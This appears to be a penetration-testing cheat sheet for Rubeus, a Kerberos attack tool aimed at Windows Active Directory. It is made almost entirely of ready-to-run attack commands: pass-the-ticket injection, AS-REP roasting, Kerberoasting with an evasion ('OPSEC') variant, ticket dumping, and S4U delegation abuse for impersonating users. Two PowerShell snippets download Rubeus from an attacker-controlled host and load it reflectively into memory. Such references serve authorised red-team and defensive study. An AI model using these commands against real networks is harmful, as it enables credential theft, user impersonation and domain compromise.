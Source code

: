 # rubeus

% ad, windows, rubeus

## inject ticket from file
#assessment/AD #target/local #cat/UTILS  
```cmd
.\Rubeus.exe ptt /ticket:<ticket>
```

## load rubeus from powershell
#assessment/AD #target/local #cat/UTILS 
```powershell
$data = (New-Object System.Net.WebClient).DownloadData('http://<lhost>/Rubeus.exe');$assem = [System.Reflection.Assembly]::Load($data);
```

## execute rubeus from powershell
#assessment/AD #target/remote #cat/UTILS 
```powershell
[Rubeus.Program]::MainString("klist");
```

## monitor
#assessment/AD #target/remote #cat/ATTACK/EXPLOIT  
```cmd
.\Rubeus.exe monitor /interval:5 /filteruser:<machine_account>
```

## inject ticket from b64 blob
#assessment/AD #target/local #cat/UTILS  
```cmd
.\Rubeus.exe ptt /ticket:<BASE64BLOBHERE>
```

## check ASPREPRoast for all users in current domain
#assessment/AD #target/remote #cat/ATTACK/EXPLOIT  
```cmd
.\Rubeus.exe asreproast  /format:<AS_REP_response_format> /outfile:<output_hashes_file>
```

## ASREPRoast specific user
#assessment/AD #target/remote #cat/ATTACK/EXPLOIT  
```cmd
.\Rubeus.exe asreproast  /user:<user> /domain:<domain_name> /format:<AS_REP_response_format> /outfile:<output_hashes_file>
```

## kerberoasting - current domain
#assessment/AD #target/remote #cat/ATTACK/EXPLOIT  
```cmd
.\Rubeus.exe kerberoast /outfile:<output_TGSs_file>
```

## Kerberoasting and outputting on a file with a specific format
#assessment/AD #target/remote #cat/ATTACK/EXPLOIT  
```cmd
.\Rubeus.exe kerberoast /outfile:<output_TGSs_file> /domain:<domain_name>
```

## Kerberoasting while being "OPSEC" safe, essentially while not try to roast AES enabled accounts
#assessment/AD #target/remote #cat/ATTACK/EXPLOIT  
```cmd
.\Rubeus.exe kerberoast /outfile:<output_TGSs_file> /domain:<domain_name> /rc4opsec
```

## Kerberoast AES enabled accounts
#assessment/AD #target/remote #cat/ATTACK/EXPLOIT  
```cmd
.\Rubeus.exe kerberoast /outfile:<output_TGSs_file> /domain:<domain_name> /aes
```
 
## Kerberoast specific user account
#assessment/AD #target/remote #cat/ATTACK/EXPLOIT  
```cmd
.\Rubeus.exe kerberoast /outfile:<output_TGSs_file> /domain:<domain_name> /user:<user> /simple
```

## get hash
#assessment/AD #target/remote #cat/POSTEXPLOIT/CREDS_RECOVER 
```cmd
.\Rubeus.exe hash /user:<user> /domain:<domain_name> /password:<password>
```

## dump - will dump any relevant cached TGS ticket’s stored
#assessment/AD #target/local #cat/POSTEXPLOIT/CREDS_RECOVER 
```
.\Rubeus.exe dump
```

## ask and inject ticket
#assessment/AD #target/remote #cat/ATTACK/CONNECT 
```
.\Rubeus.exe asktgt /user:<user> /domain:<domain_name> /rc4:<ntlm_hash> /ptt
```

## S4U - with ticket - Constrained delegation
#assessment/AD #target/remote #cat/ATTACK/EXPLOIT 
```
.\Rubeus.exe s4u /ticket:<ticket> /impersonateuser:<user> /msdsspn:ldap/<domain_fqdn> /altservice:cifs /ptt
```

## S4U - with hash - Constrained delegation
#assessment/AD #target/remote #cat/ATTACK/EXPLOIT 
```
.\Rubeus.exe s4u /user:<user> /rc4:<NTLMhashedPasswordOfTheUser> /impersonateuser:<user_to_impersonate> /msdsspn:ldap/<domain_fqdn> /altservice:cifs /domain:<domain_name> /ptt
```

## get rc4 of machine with the password
#assessment/AD #target/local #cat/POSTEXPLOIT/CREDS_RECOVER 
```
.\Rubeus.exe hash /password:<machine_password>
```

## S4U - Resource based constrained delegation
#assessment/AD #target/remote #cat/ATTACK/EXPLOIT 
```
.\Rubeus.exe s4u /user:<MachineAccountName> /rc4:<RC4HashOfMachineAccountPassword> /impersonateuser:<user_to_impersonate> /msdsspn:cifs/<domain_fqdn> /domain:<domain_name> /ptt
```

## Rubeus Reflection assembly
#assessment/AD #target/remote #cat/ATTACK/EXPLOIT 
```powershell
$data = (New-Object System.Net.WebClient).DownloadData('http://<ip>/Rubeus.exe')  
$assem = [System.Reflection.Assembly]::Load($data)
[Rubeus.Program]::Main("<rubeus_cmd>".Split())
```

= ticket : c:\Temp\ticket.kirbi
= domain_fqdn : MYDC.mydomain.local
= domain_name : mydomain.local
= AS_REP_response_format : hashcat
